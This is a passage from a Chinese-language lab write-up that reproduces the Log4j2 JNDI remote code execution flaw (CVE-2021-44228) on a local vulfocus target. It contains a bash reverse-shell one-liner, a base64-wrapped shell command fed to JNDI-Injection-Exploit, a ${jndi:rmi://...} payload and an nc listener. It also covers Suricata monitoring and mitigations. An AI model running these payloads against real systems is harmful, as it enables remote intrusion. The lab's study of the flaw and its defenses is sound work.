  ```
  
  用到了interact工具

  >python3 log4j-scan.py --request-type post -u http://192.168.56.108:11779/hello
  
  报错：
  ```
  requests.exceptions.ConnectionError: HTTPSConnectionPool(host='interact.sh', port=443): Max retries exceeded with url: /register (Caused by NewConnectionError('<urllib3.connection.HTTPSConnection object at 0x7f6c45474af0>: Failed to establish a new connection: [Errno -3] Temporary failure in name resolution'))

  ```

  通过chatAI查询具体的解决方式
  ```
  根据您提供的错误信息，报错表明在与 `interact.sh` 建立 HTTPS 连接时出现了问题，无法解析主机名 `interact.sh`。

  这个错误通常是由于 DNS 解析失败导致的，也就是无法将域名解析为 IP 地址。可能的原因和解决方法如下：

  1. DNS 解析问题：您的计算机可能无法正确解析域名 `interact.sh`。您可以尝试使用以下命令检查 DNS 设置：

  > cat /etc/resolv.conf


  确保其中的 DNS 服务器地址正确配置。您可以尝试修改 DNS 设置为其他可靠的 DNS 服务器，如 Google 的公共 DNS 服务器 `8.8.8.8` 和 `8.8.4.4`，编辑 `/etc/resolv.conf` 文件并更新 DNS 地址。

  2. 网络连接问题：请确保您的网络连接正常并且可以访问互联网。您可以尝试使用 `ping` 命令检查网络连接的连通性：

  > ping interact.sh
  
  如果出现无法解析的错误，请参考之前提到的网络连接问题解决方案。

  3. 防火墙或网络安全设置：某些防火墙、安全工具或网络设置可能阻止您的计算机进行 DNS 查询或建立 HTTPS 连接，请确保防火墙或安全设置允许此类通信。您可以尝试禁用防火墙或临时关闭某些安全工具，并再次尝试执行命令。

  4. 临时问题：有时，特定的网络故障或暂时的服务器问题可能导致解析失败。如果这是一个临时问题，您可以稍后再试，看是否问题得到解决。

  如果您尝试了上述解决方案仍然无法解决问题，请考虑联系网络管理员或技术支持人员寻求进一步的帮助。他们可以对您的网络设置和环境有更深入的了解，并提供特定于您情况的解决方案。
  ```
  尝试后发现无法解析域名 interact.sh。这进一步确认了 DNS 解析的问题。

  检查DNS设置，发现没有报错，还是没有解决相关网站的登录问题。

- 评估漏洞利用效果

  进入靶标容器
  >docker ps

  >docker docker exec -it distracted_kepler bash

  

  查看支持的shell有哪些
  >cat /etc/shells

  

  查看攻击者主机ip，得到`192.168.56.104`

  同时开启`7777端口`准备

  在受害者靶机环境中单独测试一下有效负载，单行的bash反弹shell

  >bash -i >& /dev/tcp/192.168.56.104/7777 0>&1

  出现报错显示`Connection timed out`
  

  - 搜索可能有的问题原因
    
    - 确认网络配置
      进行攻击者和受害者主机之间的互ping
      没有问题

    - 检查防火墙设置
      
      检查状态
      >sudo ufw status

      停用ufw防火墙
      >sudo ufw disable

      确认网络配置。通过ping命令确保攻击者主机和受害者主机之间的网络连接正常
      >ping 192.168.56.104
      >ping 192.168.56.108

      重新尝试执行

      连接成果！！！
  
  

  达成在攻击者主机上完成窥探

  在攻击者主机上执行
  >ls /tmp

  

  在vulfocus环境中所有的靶机都是在/tmp的目录下，有这样的靶标文件，得到flag
  `flag-{bmhb02fe963-65ef-45bb-9dee-a0f8a9f30a3f}`

  先不提交flag

  换另外一种方式

  下载工具
  >wget https://hub.fastgit.org/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip

  出现报错：
  ```
  GnuTLS: Error in the pull function.
  Unable to establish SSL connection.

  ```

  搜索显示可以通过` –no-check-certificate `参数,wget 将不会对服务器的 SSL 证书进行校验，并继续建立连接和下载文件。但请注意，在某些情况下，服务器的 SSL 证书无效可能意味着存在安全风险。

  >wget --no-check-certificate https://hub.fastgit.org/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip

  但是依然出现`GnuTLS: Error in the pull function.Unable to establish SSL connection.`报错

  有解决方法为编辑`/etc/hosts`文件，配置解析github

  ```
  vim /etc/hosts
  192.30.253.112 github.com
  199.232.28.133 raw.githubusercontent.com  
  
  ```
  
  重新尝试下载，依然报错`GnuTLS: Error in the pull function.Unable to establish SSL connection.`

  关闭防火墙尝试报错

  修改为curl下载方式依旧报错

  >curl -LOk --insecure https://hub.fastgit.org/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip

  ```
  curl: (35) OpenSSL SSL_connect: Connection reset by peer in connection to hub.fastgit.org:443 
  ```

  使用`--insecure`来禁用证书验证

  >curl -LOk --insecure https://hub.fastgit.org/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip

  依旧有报错

  查询其他方式解决
  
  下载安装JNDI-Injection-Exploit

  >$ git clone https://github.com/welk1n/JNDI-Injection-Exploit.git

  >$ cd JNDI-Injection-Exploit

  >$ mvn clean package -DskipTests

  (maven通过`sudo apt install maven`安装)

  在kali中打开事先准备好的exp，地址`https://github.com/bkfish/Apache-Log4j-Learning/`

  解压后到tool目录下，构造payload
  >bash -i >& /dev/tcp/192.168.56.104/7777 0>&1
  
  将这行代码通过base64进行加密，得到
  >YmFzaCUyMC1pJTIwJTNFJTI2JTIwL2Rldi90Y3AvMTkyLjE2OC41Ni4xMDQvNzc3NyUyMDAlM0UlMjYx

  通过查询.jar文件在target文件夹中

  启动运行：
  ```
  java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo, YmFzaCUyMC1pJTIwJTNFJTI2JTIwL2Rldi90Y3AvMTkyLjE2OC41Ni4xMDQvNzc3NyUyMDAlM0UlMjYx}|{base64,-d}|{bash,-i}" -A 192.168.56.104

  ```


  java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C “反弹shell命令” -A “该IP是开启JDNI服务的主机地址”

  

  得到rmi、ldap参数

  这里会生成两个协议各一个执行命令，这两个协议在log4j2中都有执行权限

  我们使用第一个，再次构造一个payload

  >${jndi:rmi://192.168.56.104:1099/374ohk}

  对应端口开启监听
  >nc -lvvp 7777

  浏览器端访问payload

  受到反弹shell，用find命令找flag

  >find /tmp

  得到flag`/tmp/flag-{bmhb02fe963-65ef-45bb-9dee-a0f8a9f30a3f} `

  参考文章：

  [Log4j2_RCE漏洞复现](https://blog.csdn.net/weixin_52091458/article/details/121980780)

  [JNDI-Injection-Exploit](https://liuyixiang.com/post/103656.html)


  [JNDI 注入利用工具](https://www.iculture.cc/forum-post/23278.html)

  [以CVE-2020-8840为例分析Jackson漏洞](https://www.anquanke.com/post/id/226006)

  [Log4j2远程代码执行漏洞(cve-2021-44228)复现](https://blog.csdn.net/weixin_46198176/article/details/124917641)

  [Java安全之JNDI注入](https://www.cnblogs.com/nice0e3/p/13958047.html)

  [JNDIExploit](https://github.com/WhiteHSBG/JNDIExploit)

  [Mr-xn/JNDIExploit-1](https://github.com/Mr-xn/JNDIExploit-1)

  [log4j2（CVE-2021-44228）漏洞复现实操（小白向）](https://cloud.tencent.com/developer/article/2023496)

- 漏洞利用流量监测实战
  
  启动靶机镜像

  启动 suricata 检测容器
  此处 eth1 对应靶机所在虚拟机的 host-only 网卡 IP
  
  >docker run -d --name suricata --net=host -e SURICATA_OPTIONS="-i eth1" jasonish/suricata:6.0.4

  - `jasonish/suricata:6.0.4`启动jasonish/suricata:6.0.4版本镜像

    `-d`将镜像容器放到后台运行

    `--name suricata`名字为suricata

    `--net=host`网络方式选择宿主机网络

    `-e SURICATA_OPTIONS="-i eth1"`传入名为SURICATA_OPTIONS环境变量，传入值为-i eth1

    选择eth1因为当前有两块网卡
    eth0为上网所需nat

    eth1为靶机host_only的地址192.168.56.108

  更新 suricata 规则，更新完成测试完规则之后会自动重启服务

  >docker exec -it suricata suricata-update -f

  监视suricata日志

  >docker exec -it suricata tail -f /var/log/suricata/fast.log

  ```
  07/26/2023-13:12:00.731464  [**] [1:2022973:1] ET POLICY Possible Kali Linux hostname in DHCP Request Packet [**] [Classification: Potential Corporate Privacy Violation] [Priority: 1] {UDP} 192.168.56.108:68 -> 192.168.56.100:67                            07/26/2023-13:17:00.731229  [**] [1:2022973:1] ET POLICY Possible Kali Linux hostname in DHCP Request Packet [**] [Classification: Potential Corporate Privacy Violation] [Priority: 1] {UDP} 192.168.56.108:68 -> 192.168.56.100:67                            07/26/2023-13:27:00.735017  [**] [1:2022973:1] ET POLICY Possible Kali Linux hostname in DHCP Request Packet [**] [Classification: Potential Corporate Privacy Violation] [Priority: 1] {UDP} 192.168.56.108:68 -> 192.168.56.100:67                            07/26/2023-13:32:00.737410  [**] [1:2022973:1] ET POLICY Possible Kali Linux hostname in DHCP Request Packet [**] [Classification: Potential Corporate Privacy Violation] [Priority: 1] {UDP} 192.168.56.108:68 -> 192.168.56.100:67
  ```
  记录粘贴部分日志

##### 漏洞利用防御与加固
  


- 临时修复方案
    
    1. 关闭lookup功能，即：设置 JVM 启动参数，修改启动脚本或命令，添加`-Dlog4j2.formatMsgNoLookups=true`启动参数和参数值。
        使用修改后的脚本或命令重启服务。
        例如：
        原本启动脚本或命令：
        >java -jar file.jar

        修改后启动脚本或命令：
        >java -Dlog4j2.formatMsgNoLookups=true -jar file.jar

    2. 在应用classpath下添加log4j2.component.properties配置文件，文件内容为log4j2.formatMsgNoLookups=true;

        也可以通命令行参数指定：

        >java -Dlog4j.configurationFile=../config/log4j2.component.properties

        通过Chat AI查询操作目的：
        ```
        - 添加log4j2.formatMsgNoLookups=true到配置文件或通过命令行参数指定-Dlog4j.configurationFile的方式，可以实现在应用程序运行时禁用Log4j2的JNDI查询，从而防止漏洞利用。

        - 配置文件路径和命令行参数的目的是指示Log4j2使用特定的配置文件，在配置文件中设置log4j2.formatMsgNoLookups=true属性来修复漏洞

        - 这些操作将确保在启动应用程序时，Log4j2将正确地加载修复漏洞的配置，并在后续的日志记录中禁止执行任意的JNDI查询。
        ```
        
        具体操作为：

        连接到正在运行的docker容器

        >docker exec -it distractedcted_kepler bash

        创建一个新的配置文件并编辑它，例如：
        
        >vim /demo/config/log4j2.component.properties

        报错：`bash: vim: command not found`

        说明没有安装vim编辑器，使用nano编辑器尝试

        nano编辑器也未安装
        
        在本地，新建一个名为`log4j2.component.properties`的配置文件，并添加
        >log4j2.formatMsgNoLookups=true

        将文件复制到容器内的demo目录
        >docker cp log4j2.component.properties distractedcted_kepler:/demo/

        重新进入容器，并将复制文件移动到目标位置
        >docker exec -it distractedcted_kepler bash
        
        >mv /demo/log4j2.component.properties /demo/config/

        运行应用程序，指定log4j2配置文件的位置
        >java -Dlog4j.configurationFile=../config/log4j2.component.properties -jar demo.jar
        
        (demo.jar为实际的应用程序jar文件)

    3. 将系统环境变量 `FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS` 设置为 true
      
        >export FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS=true

        或者将该命令添加到`~/.bashrc`或`~/.bash_profile`


    4. 移除log4j-core包中的JndiLookup类文件
        >zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class


        http://192.168.56.108:11779/hello?payload=${jndi:rmi://192.168.56.104:1099/2lmgt3}

    实验可以看到，日志记录中有访问记录，但是页面打开报错
    

- 通过版本覆盖，将项目依赖的log4j2升级到最新版本

- 接入安全产品
  WAF规则、RASP拦截等措施


- 参考资料
  
  [Log4j2远程代码执行漏洞(cve-2021-44228)复现](https://blog.csdn.net/weixin_46198176/article/details/124917641)

  [Log4j2漏洞修复](https://blog.csdn.net/derstsea/article/details/121918902)

  [log4j官方漏洞修复史(更新至2.17.1/CVE-2021-44832)](https://blog.csdn.net/qsort_/article/details/122101423)

  [APACHE LOG4J远程代码执行漏洞（ CVE-2021-44228）完整处置手册](http://blog.nsfocus.net/apache-log4j-cve-2021-44228/)

  [log4j2漏洞原理分析及复现-CVE-2021-44228 （vulfocus靶场）](https://blog.csdn.net/yang1234567898/article/details/124255931)


  


